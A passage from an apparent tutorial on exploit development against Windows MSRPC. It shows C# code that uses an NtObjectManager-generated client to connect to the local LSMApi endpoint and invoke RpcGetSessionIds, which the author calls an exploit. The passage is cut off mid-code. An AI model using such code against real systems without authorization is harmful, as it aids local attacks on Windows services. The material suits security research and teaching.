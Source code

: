 
![](/assets/img/posts/exploit-development-windows-msrpc/2.png)
_Solution explorer for the exploit in Visual Studio_

Before we go to the `Program.cs`, we need to add the `NtObjectManager.dll` as a reference to our project. Otherwise the code in `88143fd0-c28d-4b2b-8fef-8d882f6a9390_1.0.cs` doesn't make any scence. Right click on references, click on "add reference" and browse to the location of `NtObjectManager.dll`, which is typically located at `C:\Program Files\WindowsPowerShell\Modules\NtObjectManager\2.0.1` if you have the module installed.

On to our exploit! First we import the necessary libraries, if VS did not do so already.
```c#
using System;
using rpc_88143fd0_c28d_4b2b_8fef_8d882f6a9390_1_0;
```

The NtObjectManager PowerShell module handles the output parameters for RPC procedures automatically, and we only need to specify the input parameters. But in this case, we will actually need to create a buffer for the output parameters as well. To know which input and output parameters the procedure takes, just look into the generated RPC client file `88143fd0-c28d-4b2b-8fef-8d882f6a9390_1.0.cs` and search for the procedure:
```c#
RpcGetSessionIds(NtCoreLib.Ndr.Marshal.NdrEnum16 p0, int p1, out int[] p2, out int p3)
```
In this case, it takes an array of integers as p2 and an integer for p3.

We write a simple class and name it `Program`. This class only has the main function which doesn't return anything, so it is `Void`. It also doesn't take any arguments. It will only create a new RPC client object, connect it to the `LSMApi` endpoint and invoke the procedure:

```c#
using System;
using rpc_88143fd0_c28d_4b2b_8fef_8d882f6a9390_1_0;

class Program
{
    static void Main()
    {
        try
        {
            using (Client client = new Client())
            {
                client.Connect("LSMApi");
                int[] someIntArray;
                int someInt = 0;
                try
                {
                    client.RpcGetSessionIds(0,0, out someIntArray, out someInt);
                }
                catch { }
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
```